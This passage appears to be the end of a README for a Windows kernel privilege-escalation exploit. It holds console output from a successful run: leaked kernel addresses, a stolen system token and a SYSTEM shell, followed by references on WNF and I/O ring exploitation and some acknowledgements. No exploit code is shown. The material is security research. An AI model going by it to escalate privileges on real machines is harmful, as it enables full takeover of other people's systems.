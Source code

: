 ```
[*] original_regBufferEntry: ffffe309f1b1a1a0
[*] pipeAttributeFlink: ffffd10a472b01d0
[+] found target handle
[*] targetHandle: 00000211216BC4D0
[*] ioring index: 425
[*] fileObject: ffffe309f134d7e0
[*] base of npfs.sys: fffff80631660000
[*] base of ntoskrnl.exe: fffff80628c00000
[*] system EPROCESS: ffffe309ea4c2040
[*] system TOKEN: ffffd10a3a246040
[*] curpid: 21c8
Microsoft Windows [Version 10.0.22631.4460]
(c) Microsoft Corporation. All rights reserved.

C:\Users\unpriv>whoami
nt authority\system

C:\Users\unpriv>exit
calling NtUpdateWnfStateData returned successfully
PS C:\Users\unpriv>
```

## References

* https://www.sstic.org/media/SSTIC2020/SSTIC-actes/pool_overflow_exploitation_since_windows_10_19h1/SSTIC2020-Article-pool_overflow_exploitation_since_windows_10_19h1-bayet_fariello.pdf
* https://www.nccgroup.com/us/research-blog/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/
* https://windows-internals.com/one-i-o-ring-to-rule-them-all-a-full-read-write-exploit-primitive-on-windows-11/

## Acknowledgements

* [@cbayet](https://x.com/onlytheduck)
* [@paulfariello](https://x.com/paulfariello)
* [@alexjplaskett](https://x.com/alexjplaskett)
* [@yarden_shafir](https://x.com/yarden_shafir)
 
